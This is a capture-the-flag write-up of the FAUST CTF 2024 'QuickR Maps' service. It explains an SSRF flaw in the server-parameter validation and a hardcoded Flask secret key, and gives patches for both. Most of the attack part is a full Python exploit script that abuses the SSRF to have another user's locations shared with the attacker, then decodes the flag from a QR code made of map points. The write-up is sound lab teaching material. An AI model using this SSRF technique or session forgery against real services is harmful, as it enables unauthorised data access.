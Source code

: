 ```yaml
---
title: "FAUST CTF 2024 QuickR Maps Writeup"
date: 2024-10-11T06:00:00+02:00
author: "Hackrrr"
tags: [ "writeups" ]
---
```


QuickR Maps service allows users to store and share locations on map. There are two instances hidden behind one frontend/proxy - public and private. Public instance shows all stored locations to everyone, private instace shows only locations accessible to you (that are either yours locations or locations explicitly shared with you).

## SSRF
Application had only one "frontend" which then handled to which instance/server will actually go. This is based on `server` GET parameter. Original logic for handling and validating looks like this (logic is basically same for every endpoint):
```py
@main.get('/api/locations')
def get_locations():
    server_host = request.args.get('server')
    server_url = f"http://{server_host}:4242/location/"
    u = urlparse(server_url)
    if u.hostname not in REGISTERED_PRIV_SERVERS + REGISTERED_PUB_SERVERS:
        flash("Server not supported", "danger")
        return redirect(url_for('main.add_location'))
    # ...
    requests.get(server_url, timeout=TIMEOUT)
    # ...
```

This is quite obviously flawed - first URL is constructed from user supplied value (`server` parameter) and then this "new" URL is validated/parsed to check if it is one of allowed backend instances/servers. This allows us (= attackers) to send basically any request to any backed server if we supply "correct" value to `server` paramters (e.g. `private_loc:4242/some/backend/endpoint&x=` becomes `http://private_loc:4242/some/backend/endpoint` (assuming that `x` is ignored by backend server (which is))).

We can use this ability to share locations from another user to us on private instance:
```py
session.post(
    f"http://[{host}]:4241/api/share",
    data={
        "server": f"private_loc:4242/share/{TARGET_USER}?receiver={OUR_USER_ID}&x=",
        "receiver": OUR_USER_ID,
    },
    allow_redirects=False,
)
```

*Note: Same/Similar could be done also on other (frontend) endpoints (e.g. bulk add).*

Patch is *really quite simple*, just don't use `urlparse()` at all and check `server_host` validity directly. This patch needs to be done for every endpoint.

## Getting the flag
Vulnerability was (at least for me) actually the easy part... Extracting the flag was the hard/annoying part. One would thought that flag would be stored in descripton of some location but no. We were little confused when we found out that there is no flag in descriptions of stolen locations (from checker/flagID user). So we had a look at map of stolen locations and saw one dense area of points... and when we zoomed in we realized that it is a QR code (it requires a bit of cleanup by showing only oldest locations/points).

Fist flag we submitted manully just by taking our mobile phone, scanning it from screen and sending it to game server (sorry team Spain) just as sanity check that this is actully thing we need to do. And then I spent not exactly small amount of time trying to parse QR code in Pyhton (this was so painful, I tried several different libraries for QR code parsing until I found something that worked somehow):
```py
import zxingcpp
import numpy
from PIL import Image

# Get the locations (assuming we already somehow got valid `session`)
locs = session.get(f"http://[{host}]:4241/api/locations?server=private_loc").json()

# Keep only oldest locations
timestamp = min(x["timestamp"] for x in locs)
filtered = [x for x in locs if x["timestamp"] == timestamp]

# Creating a "grid" so we can than translate lat/long to x/y
lats = set()
longs = set()
for x in filtered:
    lats.add(x["lat"])
    longs.add(x["lon"])
lats = sorted(lats)
longs = sorted(longs)

# Create QR code image
img = Image.new(mode="RGB", size=(len(lats), len(longs)), color=(255, 255, 255))
for x in filtered:
    img.putpixel((lats.index(x["lat"]), longs.index(x["lon"])), (0, 0, 0))

# Parse QR code
# This was the annoying part :)
cv_img = numpy.array(img.convert("RGB"))[:, :, ::-1].copy()
for x in zxingcpp.read_barcodes(cv_img):
    print(x.text)
```

And so final exploit looks like this:
```py
#!/usr/bin/env python3

import json
import random
import string
import sys

import numpy
import requests
import zxingcpp
from PIL import Image

host = ...
flag_id = ... # = Target username

def randstr(
    length: int, extra: str = "", chars: str = string.ascii_letters + string.digits
) -> str:
    return "".join(random.choices(chars + extra, k=length))

# Random "checker looking" username
user = f"striker_guardian_{randstr(32, chars="0123456789abcdef")}"
password = randstr(32, chars="0123456789abcdef")

# Register
session = requests.Session()
session.post(
    f"http://[{host}]:4241/register",
    data={"agent_alias": user, "password": password},
    allow_redirects=False,
)
# Login
r = session.post(
    f"http://[{host}]:4241/login",
    data={"agent_alias": user, "password": password},
)
# Getting our user ID
user_id = r.text.split('<div class="agent-id">ID: ', 1)[1].split("</div>", 1)[0]

# Exploit
session.post(
    f"http://[{host}]:4241/api/share",
    data={
        "server": f"private_loc:4242/share/{flag_id}?receiver={user_id}&x=",
        "receiver": user_id,
    },
    allow_redirects=False,
)

# Getting the flag
locs = session.get(f"http://[{host}]:4241/api/locations?server=private_loc").json()
timestamp = min(x["timestamp"] for x in locs)
filtered = [x for x in locs if x["timestamp"] == timestamp]

lats = set()
longs = set()
for x in filtered:
    lats.add(x["lat"])
    longs.add(x["lon"])
lats = sorted(lats)
longs = sorted(longs)

img = Image.new(mode="RGB", size=(len(lats), len(longs)), color=(255, 255, 255))
for x in filtered:
    img.putpixel((lats.index(x["lat"]), longs.index(x["lon"])), (0, 0, 0))

cv_img = numpy.array(img.convert("RGB"))[:, :, ::-1].copy()
for x in zxingcpp.read_barcodes(cv_img):
    print(x.text)
```

## Other way to the flag
There is also different "vulnerability". There is one specific line in `__init__.py`:
```py
app.config['SECRET_KEY'] = 'secret-key-goes-here'
```

We realized this like in half of whole A/D (and I'm being very optimistic here with this time) and so... well... yeah, ~~we~~ I'm dumb. :)

Anyway, you could use this key to then forge session as target user and just get its locations. Unfortunatelly we couldn't make it work as we stumbled upon some weird `flask-login` "internals"/problems that we weren't able to solve. Patch is trivial, just change key to something else.
